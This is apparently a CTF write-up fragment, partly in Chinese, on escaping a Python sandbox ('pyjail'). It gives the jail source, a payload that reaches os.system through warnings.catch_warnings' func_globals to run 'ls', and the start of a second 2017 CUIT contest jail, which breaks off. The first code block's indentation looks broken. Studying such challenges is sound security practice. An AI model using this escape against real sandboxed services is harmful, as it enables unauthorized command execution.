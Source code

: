 ```python
targets = __builtins__.__dict__.keys() 
targets.remove('raw_input') 
targets.remove('print') 
for x in targets: 
	del __builtins__.__dict__[x] 
	while 1:
		print(">>>", end=' ') 
		data = raw_input() 
		for no in banned:
			if no.lower() in data.lower(): 
				print("No bueno")
				break
			else: # this means nobreak
				exec data
```

這裡使用的是 object 的第 59 個 catchwarning

```python
In [8]: ().__class__.__bases__[0].__subclasses__()[59]
Out[8]: warnings.catch_warnings
```

payload

```python
 ().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['s'+'ystem']('ls')
```



延伸學習 ~ 中國2017 胖哈勃杯第十三届CUIT校赛


題目
```
#!/usr/bin/python3
import sys, cmd, os

del __builtins__.__dict__['__import__']
del __builtins__.__dict__['eval']

intro = """
Welcome to Secure Python Interpreter 
================================================

Rules:
    -Do not import anything
    -No peeking at files!
    -No sharing of flags :)

"""


def execute(command):
       exec(command, globals())
 
class Jail(cmd.Cmd):
 
    prompt     = '>>> '
    filtered    = '\'|.|input|if|else|eval|exit|import|quit|exec|code|const|vars|str|chr|ord|local|global|join|format|replace|translate|try|except|with|content|frame|back'.split('|')
 
    def do_EOF(self, line):
        sys.exit()
 
    def emptyline(self):
```